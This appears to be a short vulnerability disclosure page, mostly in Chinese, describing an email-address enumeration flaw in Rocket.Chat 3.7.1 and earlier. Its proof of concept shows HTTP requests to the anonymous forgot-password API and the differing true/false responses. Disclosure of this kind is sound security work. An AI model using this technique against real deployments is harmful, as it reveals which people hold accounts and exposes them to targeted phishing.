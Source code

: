 <languages /> <translate>

簡介
----

Rocket.Chat 3.7.1 及以下版本存在電子郵件地址枚舉漏洞。 </translate>

POC
---

    ################

    Sample HTTP request sent with a registered email address:

    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    POST /api/v1/method.callAnon/sendForgotPasswordEmail HTTP/1.1
    Host: localhost:3000
    Content-Length: 122
    Accept: */*
    Content-Type: application/json


    {"message":"{\"msg\":\"method\",\"method\":\"sendForgotPasswordEmail\",\"params\":[\"positive@test.de\"],\"id\":\"3\"}"}
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    The server response to a valid email address:

    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    HTTP/1.1 200 OK
    X-XSS-Protection: 1
    X-Content-Type-Options: nosniff
    X-Frame-Options: sameorigin
    X-Instance-ID: DQDfuEfNLdbZr3zYH
    Cache-Control: no-store
    Pragma: no-cache
    content-type: application/json
    Vary: Accept-Encoding
    Date: Tue, 03 Nov 2020 12:01:25 GMT
    Connection: keep-alive
    Content-Length: 78

    {"message":"{\"msg\":\"result\",\"id\":\"3\",\"result\":true}","success":true}
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    Sample HTTP request sent with a non registered email address:

    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    POST /api/v1/method.callAnon/sendForgotPasswordEmail HTTP/1.1
    Host: localhost:3000
    Content-Length: 119
    Accept: */*
    Content-Type: application/json


    {"message":"{\"msg\":\"method\",\"method\":\"sendForgotPasswordEmail\",\"params\":[\"false@test.de\"],\"id\":\"3\"}"}
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    The server response to an invalid email address:

    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    HTTP/1.1 200 OK
    X-XSS-Protection: 1
    X-Content-Type-Options: nosniff
    X-Frame-Options: sameorigin
    X-Instance-ID: DQDfuEfNLdbZr3zYH
    Cache-Control: no-store
    Pragma: no-cache
    content-type: application/json
    Vary: Accept-Encoding
    Date: Tue, 03 Nov 2020 12:03:08 GMT
    Connection: keep-alive
    Content-Length: 79

    {"message":"{\"msg\":\"result\",\"id\":\"3\",\"result\":false}","success":true}
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~